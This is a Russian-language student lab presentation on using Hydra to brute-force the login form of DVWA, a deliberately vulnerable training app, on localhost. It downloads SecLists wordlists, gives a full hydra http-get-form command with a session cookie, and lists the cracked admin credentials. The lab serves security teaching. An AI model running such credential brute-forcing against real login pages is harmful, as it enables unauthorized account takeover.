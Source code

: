 ```yaml
---
## Front matter
lang: ru-RU
title: Индивидуальный проект. Этап 3
subtitle: 
author:
  - Матюхин Г.В.
institute:
  - Российский университет дружбы народов, Москва, Россия
date: 28 сентября 2024

## i18n babel
babel-lang: russian
babel-otherlangs: english

## Formatting pdf
toc: false
toc-title: Содержание
slide_level: 3
aspectratio: 169
section-titles: true
theme: metropolis
header-includes:
 - \metroset{progressbar=frametitle,sectionpage=progressbar,numbering=fraction}
---
```


# Цель работы

Использование Hydra

- Hydra используется для подбора или взлома имени пользователя и пароля.
- Поддерживает подбор для большого набора приложений.

# Выполнение лабораторной работы

Будем подбирать пароль для уязвимости "Brute Force" в DVWA с низким (low) уровнем безопастности.

## Получить словари имен пользователей и паролей

Возьмем данные из [SecLists](https://github.com/danielmiessler/SecLists).

## Пароли:
```bash
$ wget https://raw.githubusercontent.com\
    /danielmiessler/SecLists/refs/heads/master\
    /Passwords/Common-Credentials/common-passwords-win.txt
```

## Имена пользователей:
```bash
$ wget https://raw.githubusercontent.com\
    /danielmiessler/SecLists/refs/heads/master\
    /Usernames/cirt-default-usernames.txt
```

# Изучим цель

## Эндпоинт
При низком уровне безопастности форма для подбора отправляет один `GET` запрос на
`/vulnerabilities/brute/?username=<USERNAME>&password=<USERNAME>&Login=Login`.

## Определяем успех

При успехе на странице появляется текст "Welcome to the password protected area".

## Логинимся в DVWA

- необходимо быть залогиненым в DVWA,
- зайдем с именем `amdin` и паролем `password`.
- Нам нужно значение Cookie `PHPSESSID`
- Нам нужно значение Cookie `security`

# Выполнение атаки

## Команда

```bash
$ hydra \
    -L cirt-default-usernames.txt \
    -P common-passwords-win.txt \
    -o ./brute.log \
    -R \
    -s 4280 127.0.0.1 \
    http-get-form \
    "/vulnerabilities/brute/:\
    username=^USER^&password=^PASS^&Login=Login:\
    H=Cookie\: security=low;PHPSESSID=68359d81ce7b2ad7cbd0079cb3336560:\
    S=Welcome to the password protected area"
```

## Наденные пароли

- `admin`, `password`
- `ADMIN`, `password`
- `Admin`, `password`

# Выводы

На данном этапе проекта я научился пользоваться `hydra` для подбора паролей к веб приложениям.
